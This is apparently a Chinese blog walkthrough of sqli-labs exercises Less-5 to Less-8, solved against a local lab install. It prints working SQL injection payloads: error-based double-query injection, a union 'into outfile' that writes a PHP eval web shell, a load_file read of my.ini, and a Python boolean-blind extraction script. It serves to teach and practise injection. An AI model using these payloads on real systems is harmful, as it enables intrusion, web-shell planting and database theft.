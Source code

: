 ### less-5

一开始id=1'成功报错 然后id=1'#也成功绕过，但是。。。。。 ![](http://www.kingkk.com/wp-content/uploads/2017/12/2877ac76662af64256502eae9829d280.png) 什么数据都不显示，吓得我看了下源码 ![](http://www.kingkk.com/wp-content/uploads/2017/12/e8fdb6b70bae0924852f7b10a309a62d.png) 尼玛，这还真的什么都不显示。。这怎么获取利用信息呢。。 然后借鉴了一篇别人的博客（最后有提到），终于看明白了。这个less-5的目的就是为了让我们通过![](http://www.kingkk.com/wp-content/uploads/2017/12/3a6601455da142a2560113fb09d0e746.png)这个报错语句，来显示我们所需要的数据。原理如下： 有些厉害的测试工程师发现，将Group by clause与一个聚合函数一起使用，例如count(*)，可以将查询的部分内容作为错误信息返回。也就发展为今天的**二次注入查询**。 payload如下：xxx所要查询的语句 `?id=1' union select count(*),0, concat('~',(xxxx),'~', floor(rand()*2)) as a from information_schema.tables group by a%23` 构造的主要思想为：

1.  一开始还是可以通过order by获取知道有3个字段名的，然后依旧构造union select 1,2,3的语句
2.  然后在前面填充一个count(*),中间有多的话就空着好了，在最后3的位置，用concat或者concat_ws将你需要的数据与floor(rand()*2)连接在一起(为了方便观察可以加一些辅助符号如空格等)
3.  然后将这个语句 as a from information_schema.tables group by a 即可(其中as后面的a只要与group后的a同名即可，from后面的表只要是个存在的表即可)

然后只要在xxx语句中按照常规方法进行依此获取数据即可（在获取数据时可能有几次没有返回回显，多点击几次即可。而且每次读取的数据只能为一条）

### ![](http://www.kingkk.com/wp-content/uploads/2017/12/76d98b33edf91fc297de8c5c2b974d79.png)

 

### less-6

同样id=1'没报错，id=1" 报错，证明为双引号注入 然后通less-5原理，通过二次注入，得到password ![](http://www.kingkk.com/wp-content/uploads/2017/12/ed8bc7b40293e164dbf16c27faaf8b56.png)    

### less-7

一开始还是id=1'，报错（这回只有简单的提示语句错误） ![](http://www.kingkk.com/wp-content/uploads/2017/12/621ed90d715530e12749c740072288ea.png) 然后井号%23绕过,竟然不行，那就，id=1')%23 ,竟然还不行。。 原谅我菜，看了源码才知道居然有两个括号，那就id=1'))%23绕过，这回OK了 然后就是开始导入文件导入文件。写着写着发现导入的绝对地址不知道，于是通过其他less,配合下面两个函数，获取路径

*   @@datadir 读取数据库路径
*   @@basedir 获取Mysql安装路径

![](http://www.kingkk.com/wp-content/uploads/2017/12/0dbec570ea5c25186c714c4bdb84f76d.png) 然后就开始写如一句话，注意下地址的斜杠, \\\ or / 两种方式，还有post中的引号要用双引号" 否则会与之前sql语句中的单引号闭合 payload: `?id=1')) union select 1,2,'<?php @eval($_POST["kingkk"]);?>' into outfile 'D:/Program Files/wamp/www/sqli-labs/Less-7/test.php' %23` ![](http://www.kingkk.com/wp-content/uploads/2017/12/ee5981854d739358c32ce0dba395f516.png) 成功写入一句话，实战中就开始连菜刀把![](http://www.kingkk.com/wp-content/uploads/2017/12/6ff9fcd8d639f9acb5d3422a9f92200a.png) 出了导入文件，以及导出文件 `?id=1')) union select 1,2,load_file('D:/Program Files/wamp/bin/mysql/mysql5.6.17/my.ini')into outfile 'D:/Program Files/wamp/www/sqli-labs/Less-7/ini.txt' %23` ![](http://www.kingkk.com/wp-content/uploads/2017/12/ee34c45ffd06669d4ddaf237728153fe.png) 成功导出my.ini文件    

### less-8

进行简单的测试，发现，正确时返回一句固定的话，错误时没有提示语句，那也就意味着无法通过显示以及报错来获取想要的数据 此时就需要通过布尔盲注进行注入，主要思想是通过正确与错误时输出的不同，再连接上and 语句，然后依次比较ascii大小，来获得数据 payload: `?id=1' and ascii(substr((select database()),1,1))>64 %23` 修改select database（）成你想要的语句，然后依此修改substr的第二个参数，以及大于后面的数字，来获取数据，当ascii=0时表示数据截止，找到出现错误并且比较的数字是最小的那个数字即为当前字母（即刚好出错）的ascii。 布尔盲注比较费时费力，一般通过脚本进行跑。如下是我本人自己写的脚本，不得不说代码功底的确很差，本来想写二分法的，后来搞得自己有点晕，就没优化了，看来寒假是有必要好好学下数据结构和算法了。真的菜到抠脚。

#encoding=utf8
import requests 

url = 'http://localhost/sqli-labs-master/Less-8/'


def loop(sql):
	info = ""
	asc_range = \[0\]+range(20,123)
	for i in xrange(1,20):
		for x in asc_range:
			params = {'id':"1' and ascii(substr(({2}),{1},1))>{0} #".format(x,i,sql)}
			r = requests.get(url,params=params)
			if len(r.text)==722:
				if x==0:
					print 
					return info
				break;
		print chr(x),
		info+=chr(x)
